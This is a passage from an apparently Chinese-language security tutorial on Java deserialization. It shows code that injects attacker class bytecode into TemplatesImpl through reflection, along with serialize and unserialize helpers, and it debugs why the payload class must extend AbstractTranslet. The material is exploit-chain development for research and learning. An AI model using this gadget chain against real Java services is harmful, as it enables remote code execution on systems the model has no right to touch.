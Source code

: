 ```plain
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
    //避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

    templates.newTransformer();


    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

于是我们对报错的对应方法下断点进行调试：

[![](assets/1701612311-ef507553bc7d2baf9d9969d7318dbc3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235320-39895b96-20cc-1.png)

经过调试我们发现，之前我们对应赋值的变量都能够通过，这里出现了\_auxClasses空指针的现象，所以这里我们结合下面的if<0判断语句发现，这里修改\_auxClasses并不能解决问题：

这里判断当前类的父类的值是否为一个常量，而superClass对应的就是我们利用的demo类

```plain
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
else {
    _auxClasses.put(_class[i].getName(), _class[i]);
}
```
